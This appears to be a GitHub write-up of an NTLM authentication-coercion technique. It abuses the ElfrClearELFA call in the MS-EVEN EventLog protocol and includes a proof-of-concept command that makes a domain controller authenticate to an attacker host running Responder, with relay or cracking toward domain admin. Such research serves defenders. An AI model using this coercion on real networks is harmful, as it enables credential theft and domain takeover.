 # MS-EVEN - Remote call to ElfrClearELFA (opnum 12)

## Summary

 - **Protocol**: [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f)

 - **Protocol UUID**: 82273fdc-e32a-18c3-3f78-827929dc23ea

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\eventlog`

 - **Function name**: [`ElfrClearELFA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/a982c2f3-66c5-49e2-90a8-c7665470b77b)

 - **Function operation number**: `12`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\eventlog` and bind to the desired [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol (with uuid `82273fdc-e32a-18c3-3f78-827929dc23ea` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-EVEN`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\eventlog` This pipe is connected to the protocol [[MS-EVEN]: EventLog Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f) and allows to call RPC functions of this protocol. We will then call the remote [`ElfrClearELFA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/a982c2f3-66c5-49e2-90a8-c7665470b77b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
ElfrClearELFA('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NTSTATUS ElfrClearELFA(
   [in] IELF_HANDLE LogHandle,
   [in, unique] PRPC_STRING BackupFileName
 );
```

## References

 - Documentation of protocol [MS-EVEN]: EventLog Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/55b13664-f739-4e4e-bd8d-04eeda59d09f

 - Documentation of function `ElfrClearELFA`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-even/a982c2f3-66c5-49e2-90a8-c7665470b77b
